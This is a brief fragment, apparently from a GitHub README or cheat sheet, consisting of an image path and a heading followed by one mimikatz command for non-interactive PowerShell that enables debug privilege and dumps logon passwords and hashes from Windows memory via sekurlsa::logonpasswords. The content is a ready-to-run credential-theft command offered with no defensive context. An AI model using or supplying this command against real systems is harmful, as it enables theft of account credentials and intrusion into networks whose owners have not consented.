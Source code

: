 ## all in one command for non-interactive powershell
```
.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```


